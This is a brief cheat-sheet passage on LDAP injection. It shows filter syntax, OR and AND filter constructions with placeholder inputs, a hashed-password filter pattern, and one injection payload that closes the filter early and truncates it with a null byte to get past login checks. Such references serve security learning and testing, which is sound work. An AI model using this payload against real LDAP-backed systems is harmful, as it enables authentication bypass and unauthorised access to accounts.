 LDAP Syntax:
```LDAP
(cn-[INPUT])
```

#### Filter Injections

boolean OR using |:
```LDAP
(|(cn=[INPUT1])(cn=[INPUT2])) to get records matching [INPUT1] or [INPUT2]
```

boolean AND using &:
```LDAP
(&(cn=[INPUT1])(userPassword=[INPUT2])) to get records for which the cn matches [INPUT1] and the password matches [INPUT2].
```

Hashed passwords filter:
```LDAP
(&(cn=[INPUT1])(userPassword=HASH[INPUT2]))
```

#### Payloads

```LDAP
hacker)(cn=*))%00
```
